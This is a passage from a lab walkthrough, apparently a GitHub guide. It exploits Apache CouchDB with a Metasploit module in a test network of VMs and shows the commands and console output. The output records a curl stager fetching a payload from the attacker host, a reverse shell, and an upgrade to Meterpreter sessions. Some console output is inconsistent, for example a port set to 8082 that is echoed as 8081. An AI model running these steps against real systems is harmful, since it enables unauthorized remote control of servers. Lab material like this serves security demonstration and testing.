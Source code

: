 ```console
LHOST => 10.114.209.151
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 4446
LPORT => 4446
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit
```
2. Confirm the vulnerable server was sucessfully exploited and a **shell** reverse TCP session was established from **App2-APP-TIER VM** back to the **Extermal VM**
```console2
[*] Started reverse TCP handler on 10.114.209.151:4446
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/GAFpUcHbTSn8hBi
[*] Local IP: http://10.114.209.151:8080/GAFpUcHbTSn8hBi
[*] 192.168.20.101:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /GAFpUcHbTSn8hBi
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 4 opened (10.114.209.151:4446 -> 10.114.209.148:31532) at 2020-07-22 11:29:30 -0500
[+] Deleted /tmp/phfyklia
[+] Deleted /tmp/xhvxgpbjttxvgccd
```
3. You can now also upgrade this shell to Meterpreter, by running the below commands 
    * Type **background** to move the shell session to the background. Confirm by entering **y**
    * Type **use multi/manage/shell_to_meterpreter** to select the shell to meterpreter upgrade module
    * Type **set LPORT 8082** to define the local port to use. The reverse shell will be established to this local port
    * Type **set session 4** to indicate the reverse command shell session from **App2-APP-TIER VM** is the one we want to upgrade
    * Type **exploit** to establish the session
```console
background
Background session 4? [y/N]  y
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > use multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set LPORT 8082
LPORT => 8081
msf5 post(multi/manage/shell_to_meterpreter) > set session 4
session => 4
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
4. Confirm a **Meterpreter** reverse TCP session was established from **App2-APP-TIER VM** back to the **Extermal VM** and interact with the session. You may see 2 Meterpreter sessions get established. 
```console
[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.114.209.151:8082
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 5 opened (10.114.209.151:8082 -> 10.114.209.148:15262) at 2020-07-29 09:45:08 -0500
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 6 opened (10.114.209.151:8082 -> 10.114.209.148:12896) at 2020-07-29 09:45:12 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
```
